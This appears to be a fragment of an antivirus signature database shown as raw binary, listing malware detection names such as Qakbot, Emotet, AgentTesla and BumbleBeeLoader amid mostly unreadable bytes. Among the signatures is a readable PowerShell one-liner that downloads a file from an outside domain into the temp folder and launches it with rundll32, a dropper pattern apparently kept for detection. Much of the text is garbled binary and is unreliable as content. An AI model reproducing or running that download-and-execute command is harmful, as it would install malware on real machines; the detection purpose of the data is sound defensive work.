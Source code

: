 +.	*....AgentTesla.DXC!MTB.....æ...¿
³ýA¾..ëldçß+º.'3Ï.MØü.U@~g¥>z¹....®>z¹............http.............¾>z¹.....h.p.t¯.Stealer.AK!MTB.....ç....î{.xf..®H¬kÑµêúJ.Ûù.ë=uq¯?À.W.¢			...ú.3........0............QuickestRetherm..Tnega.RATR!MTB.....è...VÆ÷
ç]..h.=.!?Så°OÃóØÒ_ªÍ:ÝI#ATTR_00005d96.#ATTR_00005d97.#ATTR_00005d98.HSTR:Trojan:MSIL/Tnega.R2305PA!EML.Trojan:O97M/Qakbot.RQPQ!MTB.....é...À.Èóç...T.Ú)¼¢ô>.ë/.|Fù
â).ÇSCPT:O97M/Qakbot.RQPQ2!MTB.#ATTR_00005d99.SCPT:O97M/Qakbot.RQPQ3!MTB.#ATTR_00005d9a.SCPT:O97M/Qakbot.RQPQ4!MTB.#ATTR_00005d9b.SCPT:O97M/Qakbot.RQPQ5!MTB.#ATTR_00005d9c.SCPT:O97M/Qakbot.RQPQ6!MTB.Trojan:O97M/Qakbot.RQP!MTB.....ê...k¡.tçw...×9) 'µ92.¦Ô."F.l.Ø.#ATTR_00005d9d.#ATTR_00005d9e.#ATTR_00005d9f.Trojan:PowerShell/Qakbot.APA!MTB.....ë...Ê.n÷ç8..:z.CéÙju.hJ.`àøt.ÞSCPT:Trojan:PowerShell/Qakbot.AVA!MTB002.....ë....¼(.ç@..ô.áÖéÍYG=...h. ý.QRÄ#ATTR_00005da0.SCPT:Trojan:PowerShell/Qakbot.AMK010!MTB.Trojan:PowerShell/Qakbot.PDC!MTB.....ì.....$J)£..=Þa?.îí.Oèó.Jf.Zz~Q]powershell.exe-noexitiwr-urihttp://beachconection.com/mre2q7kj6jh4/q.png-outfile$env:temp\....dll;start-processrundll32.exe$env:temp\....dll,jhbvygftr..¬!SpyStealer.VM!MTB.....í...).{.xa..øMN¹.CÙ.}üÚ.é]".ü¦¶)..Àþÿÿ.U..Â|..8ýÿÿ.E..À..E..M..Á]..¼þÿÿ.U..mè......¯uè...........¯..........m´..Trojan:Win64/Emotet.PAL!MTB.....î....b_.xK..!Åû.¿ÃÅ÷ãtÔ|©µ^-ááº.D.àA...íD...Áú...)Â¸....¯ÐH.....A)ÔMcäB.¶. 2.+...H.Å.H.ý...t......î...+.Ó`x....{dU-h{¨î..×.GªÃª.ó±÷ïÁú....ÂÁè....ÐkÂ....Ï+ÈHcÑH.
....¶.
C2T=.A..ÿÇIÿÇIÿÌ..÷îÁú....ÂÁè....Ð.ÆÿÆkÒ...+ÂHcÐH........A2T....HÿÃH.ï...TrojanSpy:AndroidOS/SAgent.R!MTB.¯.SnakeKeylogger.PA!MTB.Trojan:Win64/BumbleBeeLoader.AG!MSR.....ñ....CÀXxd..-ø÷..dPÕ.ê.Kä)K..B¡ýEei15iLiRNN5FXZrEX92261romantic lofty legitimate distract....ñ...Î
Á¤x}....\ò£.r.à÷)..fÖ
